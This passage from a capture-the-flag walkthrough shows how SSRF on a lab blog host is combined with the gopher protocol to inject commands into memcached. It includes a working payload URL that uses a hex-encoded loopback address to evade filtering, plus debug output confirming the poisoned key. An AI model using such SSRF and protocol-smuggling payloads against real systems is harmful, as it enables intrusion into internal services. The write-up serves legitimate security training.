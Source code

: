 ![](../../.gitbook/assets/16.5-memcached-vuln.png)

This presentation from Black Hat included one case study where the researcher found a vulnerablitity where they were able to use SSRF to exploit Memcached.  This example looked like exactly what I needed.

memcached source code review -GitHub. 

> Next, we need to find a way to poison the memcached keys. This can be done with the help from the gopher protocol. Gopher is one of the oldest protocols used to access resources over a network. The modern HTTP protocol is an evolved form of Gopher. The gopher protocol is supported by various browsers as well as cURL. Unlike HTTP, Gopher can be used to craft requests and communicate with various kinds of services. `gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0AHost:test.com%0A%0A` For example, the request above will be interpreted by the server as: GET / HTTP/1.1 Host: test.com Where `%20` represents spaces and `%0A` stands for new lines. This can also be used to communicate with other services using plaintext protocols such as memcached.

This creates a key named `TEST` in memcached with the value `test`. I sent a request  in the browser to test this out using my customized URL, using the hex-encoded IP `0x7F000001` in place of `127.0.0.1`. 

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7F000001:11211/_%0d%0aset%20TEST%204%200%204%0d%0atest%0d%0a
```

  Using the `?debug` flag again after requesting the above URL returns the following:

```markup
<!--
DEBUG
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| TEST | test |
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
-->
```
